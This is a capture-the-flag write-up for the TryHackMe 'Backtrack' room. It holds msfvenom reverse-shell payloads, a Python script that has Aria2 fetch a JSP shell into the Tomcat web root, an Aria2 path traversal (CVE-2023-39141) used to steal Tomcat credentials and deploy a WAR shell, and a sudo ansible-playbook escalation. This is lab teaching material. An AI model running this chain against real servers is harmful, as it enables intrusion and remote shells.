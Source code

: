 room_url: https://tryhackme.com/room/backtrack

------------------**Recon**---------------------
**Nmap** scan result in 3 open ports **22** **8080** and **8888**


![1](https://github.com/user-attachments/assets/634aaa04-60b1-48ec-b356-e6b847a5f4ea)


**Aria2 WebUI on port 8888**

![2-Aria2](https://github.com/user-attachments/assets/37f968b7-7c37-4cda-8760-c1c5d3b02339)

**Tomcat on port 8080 and it's protected so default creds don't work (but still considered information disclosure vulnerability)** 

![4-tomcat](https://github.com/user-attachments/assets/1bf7acd9-dde8-4024-9501-4c9bd3547d36)


**directory brute forcing**

start with common.txt word-list and find some endpoints on port **8888** that revealed information on the application:

![gobuster](https://github.com/user-attachments/assets/8cf32916-ab75-4763-89d3-81c11cfb096c)


In setting we find Aria2 version
![00](https://github.com/user-attachments/assets/95a22aab-cbeb-4d1a-ab9b-d037432bdf7e)


![2 1app js](https://github.com/user-attachments/assets/f39185f5-3aa9-4d3a-b892-829953cc1f81)


![6-flags](https://github.com/user-attachments/assets/b44f7255-990e-47b6-ac26-862d30f72bfb)


# Foothold -------------------------------

# code execution can be achieved in two ways using 2 Vulnerabilities
First is **Aria2 Arbitrary File Write Vulnerability**

We can use the web interface to operate aria2 on port 8888 and upload Reverse Shell. Since Tomcat runs on port 8080, we can upload a JSP web shell to "/opt/tomcat/webapps/ROOT" directory and execute it via curl.

-----**steps**-----

**1-Generate a JSP reverse shell payload using **msfvenom****

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.xx.xx.xx LPORT=4445 -f raw > shell.jsp`

**2-start python3 server**

`python3 -m http.server 80`

![0-rev1](https://github.com/user-attachments/assets/b0ea95b4-4e7c-4801-ae5b-635734563cd1)

**3-click on** **Add** **then click on** **By URI's** **and fill as shown in the screenshot, then press start and you will notice the application has requested the file from your server.**

![0-rev](https://github.com/user-attachments/assets/8b030d03-7643-4567-86ab-317d7039793e)

**4-execute the shell using curl  from tomcat**

` curl http://10.10.198.225:8080/shell.jsp`


![0-rev2](https://github.com/user-attachments/assets/0043de64-4d40-4912-8cc6-2052ac10920a)

you can also upload shell using via port **6800** using the following script

```
import requests
import json
import time

ARIA2_RPC_URL = "http://box-ip:6800/jsonrpc"
YOUR_IP = "10.8.20.150"
REVERSE_SHELL_URL = f"http://YOUR-IP/test.jsp"

download_payload = {
    "jsonrpc": "2.0",
    "id": "qwer",
    "method": "aria2.addUri",
    "params": [
        [REVERSE_SHELL_URL],  # Aria2 downloads the reverse shell script
        {"dir": "/opt/tomcat/webapps/ROOT"}  # Save in web root
    ]
}

print("[+] Sending Aria2 download request...")
requests.post(ARIA2_RPC_URL, data=json.dumps(download_payload), headers={"Content-Type": "application/json"})

time.sleep(3)

web_trigger_url = f"http://BOX-IP:8888/test.jsp"

print(f"[+] Trying to execute via browser: {web_trigger_url}")
requests.get(web_trigger_url)  # Access the script via HTTP

print("[+] Check your Netcat listener (nc -lvnp 4444)")
```

# Second method to get code execution is **Path traversal in  Aria2 CVE-2023-39141 allow us to get Tomcat creds and upload war file to get reverse shell**
https://gist.github.com/JafarAkhondali/528fe6c548b78f454911fb866b23f66e

![1 1](https://github.com/user-attachments/assets/8969a292-eddd-46c3-9e96-2e7732b4cfdc)


![3](https://github.com/user-attachments/assets/33f4f6ac-87b0-4c33-abb7-594632ab9d2c)


`msfvenom -p java/shell_reverse_tcp lhost=tun0 lport=4444 -f war -o pwn.war`

`curl -v -u tomcat:[REDACTED] --upload-file pwn.war "http://backtrack.thm:8080/manager/text/deploy?path=/foo&update=true"`



![13](https://github.com/user-attachments/assets/a91517be-4198-421c-9a13-1d382b9b2650)

# Shell as wilbur

`sudo -l` show that we can execute ansible-playbook as wilbur


![14](https://github.com/user-attachments/assets/531f2731-039d-427f-90da-0f427af625e6)

**run the following commands to get shell as wilbur, results are in the screenshot**

`echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' > /dev/shm/tst1.yml`
` chmod 777 /dev/shm/tst1.yml`
`python3 -c "import pty; pty.spawn('/bin/bash')"`
` sudo -u wilbur /usr/bin/ansible-playbook /opt/test_playbooks/../../../dev/shm/tst1.yml`


![15](https://github.com/user-attachments/assets/14ad7c36-3a93-4c48-b0fb-e317283f83b7)
